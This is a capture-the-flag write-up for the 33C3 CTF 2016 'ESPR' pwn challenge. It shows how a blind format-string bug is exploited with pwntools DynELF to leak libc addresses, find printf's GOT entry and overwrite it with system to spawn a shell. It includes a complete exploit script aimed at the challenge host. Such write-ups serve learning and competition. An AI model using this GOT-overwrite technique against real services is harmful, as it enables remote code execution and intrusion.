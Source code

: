 ```yaml
---
title: '33C3 CTF 2016 -- ESPR'
date: 2016-12-29 22:52
tags:
  - 33C3
  - CTF
  - Python
  - Pwnable
  - format_string
categories:
  - write-ups
---
```

**Category:** pwn
**Points:** 150

<!-- more -->  

This time there's no binary or libc.so provided, only an image looks like this:
```

eat:                  sleep:
+-----------------+   +----------------+
| sub rsp, 0x100  |   | mov edi, 0x1   |
| mov rdi, rsp    |   | call _sleep    |
| call _gets      |   |                |
|                 |   |                |
+-----------------+   +----------------+
pwn:                  repeat:
+-----------------+   +----------------+
| mov rdi, rsp    |   |                |
| call _printf    |   | jmp eat        |
| add rsp, 0x100  |   |                |
|                 |   |                |
+-----------------+   +----------------+
```

Interesting...

So apparently the program has two vulnerabilities: **stack overflow** & **format string**. Since we can't actually exploit the stack overflow vulnerability (the program likely won't return because of the infinite loop), we'll have to focus on the format string vulnerability and exploit the service without having the binary file.

So how are we gonna do this? Fortunately, [pwntools](https://github.com/Gallopsled/pwntools) is here to rescue! **By using the amazing [DynELF](http://docs.pwntools.com/en/stable/dynelf.html) module, we're able to resolve & leak some address without the need for binary!** 

First we'll need a `leak` function to let pwntools able to leak data at an arbitrary address. Here we exploit the format string vulnerability to leak an arbitrary address: 
```python leak
def leak(addr):
    payload = "%7$s.AAA"+p64(addr)
    r.sendline(payload)
    print "leaking:", hex(addr)
    resp = r.recvuntil(".AAA")
    ret = resp[:-4:] + "\x00"
    print "ret:", repr(ret)
    r.recvrepeat(0.2) # receive the rest of the string
    return ret
```
Then we need a pointer into the binary. I got the pointer by entering `%30$p`, which returned `0x40060d`. Now we can use the `DynELF` module to help us resolve some function addresses.

First we'll need to resolve the address of `printf` and `system`:
```python leak library addresses
d = DynELF(leak, 0x40060d)
system_addr = d.lookup('system', 'libc')
printf_addr = d.lookup('printf', 'libc')

log.success("printf_addr: "+hex(printf_addr))
log.success("system_addr: "+hex(system_addr))
```

It took a while because of `sleep(1)`, and pwntools will need a lot of addresses to resolve those functions.
```
[+] printf_addr: 0x7fb040a17550
[+] system_addr: 0x7fb040a066d0
```

OK so now we know the offset between `printf` and `system`. Next time we'll just have to leak `printf@got.plt`, calculate `system`'s address and use it to overwrite `printf`'s GOT entry, finally we'll be able to hijack `printf`'s GOT and call `system("sh")` by entering "sh".

But first we'll have to know the address of `printf@got.plt`. Luckily, not only can `DynELF` resolve function addresses, it can also resolve some useful addresses such as the pointer to the `.dynamic` section:
```python resolve .dynamic section
d = DynELF(leak, 0x40060d)
dynamic_ptr = d.dynamic
```

Once we got the `.dynamic` section's address, we can use it to locate the `.got.plt` area:
```
Dynamic section at offset 0xe28 contains 24 entries:
  Tag        Type                         Name/Value
 0x0000000000000001 (NEEDED)             Shared library: [libc.so.6]
 0x000000000000000c (INIT)               0x400400
 0x000000000000000d (FINI)               0x400614
 0x0000000000000019 (INIT_ARRAY)         0x600e10
 0x000000000000001b (INIT_ARRAYSZ)       8 (bytes)
 0x000000000000001a (FINI_ARRAY)         0x600e18
 0x000000000000001c (FINI_ARRAYSZ)       8 (bytes)
 0x000000006ffffef5 (GNU_HASH)           0x400298
 0x0000000000000005 (STRTAB)             0x400330
 0x0000000000000006 (SYMTAB)             0x4002b8
 0x000000000000000a (STRSZ)              68 (bytes)
 0x000000000000000b (SYMENT)             24 (bytes)
 0x0000000000000015 (DEBUG)              0x0
 0x0000000000000003 (PLTGOT)             0x601000  <--- here
```
```python resolve PLTGOT
    cnt = 0
    while True:
        addr = dynamic_ptr + 0x10*cnt
        ret = leak(addr)
        if ret == "\x03\x00": #TYPE PLTGOT
            addr += 8
            for i in xrange(8):
                ret = leak(addr+i)
                print "ret:", ret.encode('hex')
            break
        else:
            cnt += 1
```

Now we can find where `printf@got.plt` is, by leaking all the GOT entry and compare the low 12 bits of the function address (see if it ends with `550`):
```python resolve printf@got.plt
got = 0x601000
for i in xrange(8):
    addr = got + i*8
    ret = leak(addr)
    print "ret:", ret.encode('hex')
```

Finally, we can start exploiting the service:
```python exp_espr.py
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "78.46.224.86"
PORT = 1337
# setting 
context.arch = 'amd64'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.log_level = 'INFO'

def leak(addr):
    payload = "%7$s.AAA"+p64(addr)
    r.sendline(payload)
    print "leaking:", hex(addr)
    resp = r.recvuntil(".AAA")
    ret = resp[:-4:] + "\x00"
    print "ret:", repr(ret)
	r.recvrepeat(0.2)
    return ret
    
if __name__ == "__main__":

    r = remote(HOST, PORT)

    printf_got = 0x601018
    printf_addr = u64(leak(printf_got).ljust(8, "\x00"))
    system_addr = printf_addr - 0x10e80 # remote

    log.success("printf_addr: "+hex(printf_addr))
    log.success("system_addr: "+hex(system_addr))

    byte1 = system_addr & 0xff
    byte2 = (system_addr & 0xffff00) >> 8
    log.success("byte1: "+hex(byte1))
    log.success("byte2: "+hex(byte2))

    payload = "%" + str(byte1) + "c" + "%10$hhn."
    payload += "%" + str(byte2-byte1-1) + "c" + "%11$hn."
    payload = payload.ljust(32, "A")
    payload += p64(printf_got) + p64(printf_got+1)
    r.sendline(payload)
    r.sendline("sh\x00")
    r.interactive()
```

flag: `33C3_f1rst_tshirt_challenge?!`
